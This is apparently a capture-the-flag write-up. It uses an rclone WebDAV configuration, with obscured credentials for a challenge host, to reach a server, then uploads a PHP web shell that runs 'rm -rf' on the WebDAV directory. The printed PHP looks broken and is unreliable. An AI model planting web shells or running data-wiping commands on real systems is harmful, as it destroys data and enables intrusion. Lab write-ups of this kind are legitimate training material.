






# Prompt



# Solution

- You are provided a configuration file which turns out to be a rclone webdav configuration file. 



- You can use the tool below to decrypt the password (and username apparently)


- https://rclone.org/webdav/
- https://owncloud.dev/clients/rclone/webdav-sync-basic-auth/





- So after much headbanging, I found that changing the rclone config (the provided file) actually works as written below: 

```
[remote]
type = webdav
url = http://chal.ctf.games:31736/webdav/
vendor = other
#user = SuperExtremelySecurePasswordLikeAlways
user = VAHycYhK2aw9TNFGSpMf1b_2ZNnZuANcI8-26awGLYkwRzJwP_buNsZ1eQwRkmjQmVzxMe5r
pass = HOUg3Z2KV2xlQpUfj6CYLLqCspvexpRXU9v8EGBFHq543ySEoZE9YSdH7t8je5rWfBIIMS-5
```

- Using the config, you can list the files. The challenge is to “eradicate” the files before the ransom demand, so you write a simple PHP shell, upload it, and then navigate to the page. 

```php
<?php

shell(“rm -rf /var/www/html/webdav/”);

?>
```


- I missed getting a screenshot of the /shell.php page, but it was a blank page that ran the command. When you navigate back to the main page, you get the flag.

